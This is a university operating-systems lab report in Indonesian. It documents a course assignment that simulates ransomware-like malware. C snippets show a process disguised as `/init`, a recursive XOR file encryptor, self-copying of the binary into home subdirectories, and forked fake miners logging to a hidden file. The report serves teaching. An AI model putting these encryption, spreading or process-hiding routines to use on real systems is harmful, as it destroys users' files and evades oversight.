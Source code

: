 # Laporan Praktikum Sisop Modul 2 Kelompok IT21
# Anggota
1. Nisrina Bilqis - 5027241054
2. Hanif Mawla Faizi - 5027241064
3. Dina Rahmadani - 5027241065

# Soal_1

# Soal_2

# Soal_3
## Deskripsi Soal

Pada soal ini, kami diminta untuk mensimulasikan sebuah malware yang terdiri dari beberapa fitur layaknya ransomware atau worm sungguhan. Malware ini terdiri dari beberapa proses anak yang berjalan secara daemon dan berfungsi untuk mengenkripsi data, menyebarkan salinan binary, serta melakukan simulasi cryptomining.

Seluruh fitur harus dijalankan melalui satu binary utama `runme`, yang akan berubah nama prosesnya menjadi `/init`. Kemudian, secara paralel, `runme` akan memunculkan tiga proses anak:
- `wannacryptor` → proses enkripsi file
- `trojan.wrm` → proses penyebaran malware
- `rodok.exe` → proses simulasi fork bomb + cryptominer

Malware ini berjalan berulang setiap 30 detik, dan hanya `runme` yang benar-benar dijalankan, tidak mengeksekusi ulang hasil salinan malware yang tersebar.

---

### A : Daemon dan Rename Proses
```c
daemonize();
prctl(PR_SET_NAME, "/init", 0, 0, 0);
```
- Program `runme` melakukan `daemonize()` untuk berjalan di background tanpa terminal.
- Menggunakan `prctl(PR_SET_NAME, "/init", ...)` untuk mengubah nama proses menjadi `/init`.
- Hal ini membuat proses utama malware tersamarkan saat dilihat di proses list (`ps`).

---

### B : Enkripsi oleh `wannacryptor`
```c
void xor_file(const char *filepath, unsigned char key) {
    FILE *fp = fopen(filepath, "rb+");
    if (!fp) return;
    int ch;
    while ((ch = fgetc(fp)) != EOF) {
        fseek(fp, -1, SEEK_CUR);
        fputc(ch ^ key, fp);
    }
    fclose(fp);
}

```
```c
unsigned char key = (unsigned char)(time(NULL) % 256);
wannacryptor(root_path, key);

```
- Fungsi **wannacryptor()** akan men-scan semua file dan folder dalam direktori tempat **runme** dijalankan, lalu mengenkripsinya menggunakan operasi XOR dengan key dari timestamp.
- File **keylog.txt** disimpan untuk jaga-jaga bila perlu dekripsi.
- Karena kelompok **ganjil**, metode yang digunakan adalah **enkripsi rekursif langsung**, bukan ZIP.

---

### C : Penyebaran Malware oleh `trojan.wrm`
```c
void spread_malware(const char *self_path) {
    ...
    snprintf(dest, sizeof(dest), "%s/runme", path);
    ...
    fwrite(buf, 1, n, dst);
    chmod(dest, 0755);
}

```
**Hasil yang Diharapkan :**
- Proses `trojan.wrm` akan menyebarkan salinan binary `runme` ke semua subdirektori dalam `/home/user`.
- Penyebaran hanya sebatas penyalinan (tidak mengeksekusi ulang salinan).
- Binary yang disalin tetap bernama `runme` dan memiliki izin eksekusi (chmod 755).

---

### D : Looping 30 Detik
```c
while (1) {
    ...
    wannacryptor(...);
    sleep(30);
}

```
- Proses **wannacryptor** dan **trojan.wrm** berjalan selamanya dan melakukan tugasnya tiap 30 detik.
- **runme** utama akan tetap aktif dan menjadi parent dari seluruh proses ini.

---

### E & F : Fork Bomb & Cryptomining oleh `rodok.exe`
```c
void spawn_miners() {
    for (int i = 0; i < 4; i++) {
        pid_t pid = fork();
        if (pid == 0) {
            snprintf(name, sizeof(name), "mine-crafter-%d", i);
            ...
            while (1) {
                sleep(delay);
                generate_hash(hash);
                ...
                fprintf(f, "%s[Miner %02d] %s\n", timestamp, i, hash);
            }
        }
    }
}

```
```c
if (fork() == 0) {
    prctl(PR_SET_NAME, "rodok.exe", 0, 0, 0);
    spawn_miners();
    while (1) pause();
}

```
- **rodok.exe** akan memunculkan 4 proses **mine-crafter-XX** yang melakukan hashing acak (cryptomining) setiap 3–30 detik.
- Nama proses diubah agar tampil sebagai **mine-crafter-0**, **mine-crafter-1**, dst.
- Log hasil mining ditulis ke **/tmp/.miner.log**.

---

### G : Logging Hash Cryptominer
**Contoh Log :**
```c
[2025-04-10 17:32:05][Miner 00] d1f4c93aa8dabc17e9a4...
```
**File Output :**
```
/tmp/.miner.log
```
- Hasil cryptomining dari setiap **mine-crafter** dicatat lengkap dengan timestamp dan ID prosesnya.

---

### H : Dependency Proses Fork
- rodok.exe adalah parent dari semua proses mine-crafter-XX.
- Karena rodok.exe menjalankan pause(), prosesnya tetap hidup dan menjaga anak-anaknya.
- Jika rodok.exe dihentikan (kill), maka semua mine-crafter juga akan mati.

---

### ❕REVISI❕
---
### 1. Penyebaran ***runme*** ke direktori ***home/user***
### 🔻 Sebelumnya:
Kode hanya menyebar ke folder di dalam /home/user, lewat loop:
```c
DIR *dir = opendir("/home/user");
while ((entry = readdir(dir)) != NULL) {
    ...
    if (S_ISDIR(st.st_mode)) {
        snprintf(dest, sizeof(dest), "%s/runme", path);
        ...
        fwrite(...);  // salin file runme
        spread_malware(path, self_path); // rekursif
    }
}
```
### ✅ Sesudah :
```c
struct stat st;
if (stat(base_path, &st) == 0 && S_ISDIR(st.st_mode)) {
    char dest[MAX_PATH];
    snprintf(dest, sizeof(dest), "%s/runme", base_path);

    FILE *src = fopen(self_path, "rb");
    FILE *dst = fopen(dest, "wb");
    if (src && dst) {
        char buf[1024];
        size_t n;
        while ((n = fread(buf, 1, sizeof(buf), src)) > 0)
            fwrite(buf, 1, n, dst);
        fclose(src);
        fclose(dst);
        chmod(dest, 0755);
    }
}
```
Bagian ini akan selalu menyalin **runme** ke folder **base_path** saat fungsi dipanggil, termasuk **/home/user**.

### Setelah malware dijalankan :
```
/home/user/
├── runme               ← disalin ke direktori ini
├── Documents/
│   └── runme
├── Downloads/
│   └── runme
├── Pictures/
│   └── runme
```

# Soal_4

